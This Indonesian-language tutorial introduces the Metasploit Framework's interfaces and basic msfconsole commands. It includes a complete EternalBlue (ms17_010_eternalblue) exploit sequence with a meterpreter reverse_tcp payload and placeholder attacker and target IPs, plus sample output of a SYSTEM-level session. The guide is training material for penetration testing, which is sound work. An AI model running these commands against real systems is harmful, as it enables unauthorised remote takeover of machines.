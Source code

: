 # Antarmuka Metasploit Framework

## A. Pengantar

`Metasploit Framework` memiliki beberapa antarmuka yang bisa digunakan oleh user, mulai dari CLI (Command Line Interface) hingga GUI (Graphical User Interface). Namun, yang paling sering digunakan dan paling powerful adalah CLI melalui `msfconsole`.

## B. Jenis Antarmuka Metasploit

| Antarmuka | Deskripsi |
|:--:|:--:|
| `msfconsole` | Antarmuka utama berbasis CLI, digunakan untuk menjalankan `modul`, `payload`, dan `eksploitasi`. |
| `msfvenom` | CLI untuk membuat payload secara manual. |
| [Armitage](https://www.offsec.com/metasploit-unleashed/armitage/) (GUI) | Antarmuka grafis berbasis Java (sudah jarang digunakan). |
| [Metasploit Pro](https://docs.rapid7.com/metasploit/) (GUI berbayar) | Antarmuka komersial dengan fitur profesional seperti laporan dan automasi. |

## C. msfconsole – Antarmuka Utama

1. Menjalankan msfconsole:

   ```
   msfconsole
   ```

   Saat dijalankan, akan muncul banner:

   ```
          =[ metasploit v6.4.56-dev                          ]
   + -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
   + -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
   + -- --=[ 9 evasion                                       ]

   Metasploit Documentation: https://docs.metasploit.com/
   ```

2. Struktur Dasar Perintah di msfconsole

   | Perintah | Fungsi |
   |:--:|:--:|
   | `search <nama>` | Mencari `exploit`, `payload`, `dll`. |
   | `use <modul>` | Memilih modul yang akan digunakan. |
   | `info` | Menampilkan detail tentang modul yang sedang digunakan. |
   | `show options` | Melihat konfigurasi parameter modul. |
   | `set <parameter> <nilai>` | Mengatur nilai parameter modul. |
   | `exploit` atau `run` | Menjalankan exploit atau modul. |

3. Contoh Penggunaan msfconsole:

   ```
   search windows/smb
   use exploit/windows/smb/ms17_010_eternalblue
   show options
   set RHOSTS <IP TARGET>
   set LHOST <IP ATTACKER>
   set PAYLOAD windows/meterpreter/reverse_tcp
   exploit
   ```

## D. Fitur Tambahan di msfconsole

| Fitur | Penjelasan |
|:--:|:--:|
| Tab Completion | Tekan `Tab` untuk melengkapi modul atau perintah otomatis |
| Command History | Gunakan panah atas `(↑)` untuk melihat perintah sebelumnya |
| Background Sessions | Gunakan background untuk menyimpan sesi eksploitasi ke background |
| Session Interaction | Gunakan `sessions -i <id>` untuk membuka kembali sesi eksploitasi |

## E. Contoh Output dari msfconsole:

```
msf6 > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter x86/win32  NT AUTHORITY\SYSTEM       192.168.1.10 -> 192.168.1.5
```

## F. Kesimpulan

`msfconsole` adalah pusat kendali utama dalam Metasploit. Dengan memahami perintah-perintah dasar dan navigasi antarmukanya, kamu bisa mengelola modul eksploitasi, payload, dan sesi secara efisien.

> Tips: Latih penggunaan msfconsole di lab lokal atau VM agar terbiasa sebelum digunakan dalam skenario nyata.
